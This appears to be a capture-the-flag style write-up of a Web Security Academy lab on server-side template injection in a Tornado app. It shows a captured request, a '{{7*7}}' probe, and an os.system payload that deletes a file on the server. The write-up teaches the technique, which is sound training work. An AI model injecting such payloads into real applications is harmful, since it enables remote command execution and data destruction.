


# Basic server-side template injection

## Lab Description :


## Solution :
In the My-Account page, we have this Preferred name functionality.

On selecting First name , a POST request is sent as follows.

```html
POST /my-account/change-blog-post-author-display HTTP/2
Host: b7c91e4a5d8f0236a1e94cbf70d3a8f2.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: https://b7c91e4a5d8f0236a1e94cbf70d3a8f2.web-security-academy.net
Referer: https://b7c91e4a5d8f0236a1e94cbf70d3a8f2.web-security-academy.net/my-account?id=wiener
Cookie: session=L6vbGPm7HzT2Pdds1yaNqsgg31Tr7Auk
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

blog-post-author-display=user.first_name&csrf=XlGz50yl1jqjs2iKGNHYvMTOsHDYCXlK
```

The blog-post-author-display=user.first_name seems interesting, it seems like it takes our first name and passes it as data to the backend code then processes it and sends it back.

So when we change the value to ``Nickname`` the comments which we made in a post will be posted with our nickname.

As seen from the above image, we see that the nickname is h0td0g.

Similarly when we change our preferred name to Name, then the name above the comment made by us will be wiener.

Injecting payload :
In the above request, we need to first close the expression with }} and then we can inject our malicious payload for Tornado template engine.

Payload used to delete morale.txt -

```python3
}}{{7*7}}
```

Since Tornado is a python based templating engine, we can use {{..}} to test / run commands.

Now we can see that the username has ``49`` in it which is a result of our payload ``{{7*7}}`` which confirms the SSTI vulnerability.


Now to delete the file, we can use this payload.

```python3
}}{{ os.system("rm /home/carlos/morale.txt") }}
```

Now once we send the payload in the ``blog-post-author-display=user.first_name`` parameter ie ( blog-post-author-display=user.name}}{{ os.system('rm /home/carlos/morale.txt') }} ), the payload gets executed & the file is deleted .Thus we have solved the lab.



#### Visit The Next Page For The Next Level :)
